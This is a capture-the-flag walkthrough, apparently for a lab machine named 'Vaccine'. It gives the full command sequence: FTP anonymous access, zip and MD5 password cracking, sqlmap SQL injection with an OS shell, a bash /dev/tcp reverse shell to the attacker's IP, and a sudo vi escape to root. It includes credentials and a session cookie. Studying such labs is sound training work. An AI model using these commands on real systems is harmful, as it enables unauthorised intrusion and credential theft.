







# Vaccine
## User Flag
When starting a box it's always a good idea to run nmap to enumerate services on the target machine. Running `nmap -sV -sC 10.129.95.174` shows us the versions of services running and may point us towards vulnerabilities. The scripts don’t give us much, but we see that the machine has three TCP ports running:

There are several ports to look at. Port **21** hosts an ftp service, **22** hosts an ssh service, and there seems to be a web service on port **80**. We will start investigating port **21** since it says we can log in anonymously. We can run `ftp anonymous@10.129.95.174`, keeping the password blank.

Connecting to the ftp service, we see that the directory holds a file named **backup.zip**, which we can add to our machine via `get backup.zip`. However, when we run `unzip backup.zip`, it is password protected.

We can attempt to use **John the Ripper** to crack the password. We can run `zip2john backup.zip` to get the password hash. We can copy it into another file, say **backup_hash.txt**, for processing:

To crack the password, we can run john backup_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt. To see the password, we can run john –show backup_hash.txt, revealing the password to be 741852963. We can then unzip the package using that password (unzip backup.zip). The zip file included index.php and style.css. Opening index.php we see:

Which gives us the admin password hashed in md5 and username. MD5 is reversible, so we can use **https://md5.gromweb.com/** to reverse it. We see that the password for the admin user is: **qwerty789**

We can log into the web page now with **username: admin** and **password: qwerty789**.

We are given a page with information and a search bar. It’s always a good idea to check for injection potential. Typing in `‘` into the search bar give us this:

The error message implies that we can manipulate input to get information on the system. A common tool to exploit sql injection is `sqlmap`. To use sqlmap, we need to provide the cookie related to the admin user. We can intercept traffic using BurpSuite to find that our cookie is **PHPSESSID=s95mr19bo0to9lhthhe0iaacun**.

We can get the password for the user using
`sqlmap -url="http://10.129.95.174/dashboard.php?search=Elixir" --passwords --cookie="PHPSESSID=s95mr19bo0to9lhthhe0iaacun"`

Again, we can reverse the md5 hash to get the password: **P@s5w0rd!postgres**. We now have the **user: postgres** and the **password: P@s5w0rd!postgres**.

We can use the `–os-shell` flag of sqlmap to get a shell on the target machine using this command:
`sqlmap -url="http://10.129.95.174/dashboard.php?search=Elixir" --os-shell --cookie="PHPSESSID=s95mr19bo0to9lhthhe0iaacun"`

Once in, we see that we can create and write files, however, that doesn’t seem to do us any good. What we can do, however, is set up a reverse shell.  On Kali Linux, we can run `nc -lvnp 4444`. On the attackers machine we can run: `bash -c ‘/bin/bash -i >& /dev/tcp/10.10.14.153/4444 0>&1’`
This opens up a reverse shell. In the postgres home directory, we can easily find **user.txt**, which contains the user flag.

# Root Flag
For the root flag, let’s go to **/var/www/html** (the default location for web service related things) and find the dashboard.php file. This gives us the password for postgres to be **P@s5w0rd!**.

We can use this info to ssh into the machine.

Once in, we need to figure out a way to escalate privileges. A good place to start would be to see if the postgres user can run anything via `sudo`. If we run `sudo -l`, we can run `/bin/vi /etc/postgresql/11/main/pg_hba`.conf. This can help us open a root shell. We run the command, which opens a vim editor.

Our vim command can be `:/bin/bash`, which opens up a root shell since we opened the file with elevated privileges.

Then we can find **root.txt** in the **/root** folder, which contains the root flag.

